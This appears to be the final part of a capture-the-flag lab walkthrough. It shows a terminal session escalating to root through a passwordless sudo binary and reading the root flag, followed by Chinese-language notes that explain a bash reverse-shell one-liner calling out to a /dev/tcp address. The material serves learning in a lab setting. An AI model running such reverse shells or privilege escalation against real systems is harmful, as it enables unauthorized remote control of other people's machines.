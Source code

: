     saket@ubuntu:/var/www$ sudo -l
    sudo -l
    Matching Defaults entries for saket on ubuntu:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User saket may run the following commands on ubuntu:
        (root) NOPASSWD: /home/victor/undefeated_victor
    saket@ubuntu:/var/www$ sudo /home/victor/undefeated_victor
    sudo /home/victor/undefeated_victor
    if you can defeat me then challenge me in front of you
    
    root@ubuntu:/var/www# ls
    ls
    html
    root@ubuntu:/var/www# stty raw -echo
    stty raw -echo
    root@ubuntu:/var/www# ls
    html
    root@ubuntu:/var/www# cd /root
    root@ubuntu:/root# ls
    enc  enc.cpp  enc.txt  key.txt  root.txt  sql.py  t.sh  wfuzz  wordpress.sql
    root@ubuntu:/root# cat root.txt
    b2b17036da1de94cfb024540a8e7075a
    root@ubuntu:/root# 
    
    
    ```





建立反弹shell之Notes：

`bash -i &> /dev/tcp/192.168.2.128/1234 0>&1 `

这段代码的目的是在Bash中建立一个网络连接，并将该连接的输入和输出重定向到指定的IP地址和端口。

1. `bash -i`：这部分启动了一个交互式的Bash shell。`-i`选项表示以交互模式运行Bash，使得我们能够与shell进行交互。

2. `&>`：这部分是重定向语法，将标准输出和标准错误输出都重定向到后面指定的位置。在这种情况下，`&>`将输出重定向到特殊设备文件`/dev/tcp/192.168.2.128/1234`。

3. `/dev/tcp/192.168.2.128/1234`：这是一个特殊的设备文件路径，在Bash中可用于进行网络连接。这里的`192.168.2.128`是目标服务器的IP地址，`1234`是目标服务器上监听的端口号。通过重定向输出到该设备文件，我们实际上将建立一个与目标服务器的网络连接。

4. `0>&1`：这部分将标准输入（文件描述符0）重定向到标准输出（文件描述符1）。这意味着我们将输入也重定向到网络连接，使得我们能够在连接上发送命令和数据。

因此，整个代码的作用是在本地机器上通过Bash启动一个与目标服务器的网络连接，并将输入和输出都重定向到该连接，以实现与目标服务器的交互。这种技术通常被用于远程控制和执行命令，但需要注意这种用法可能涉及到安全和合法性的问题。
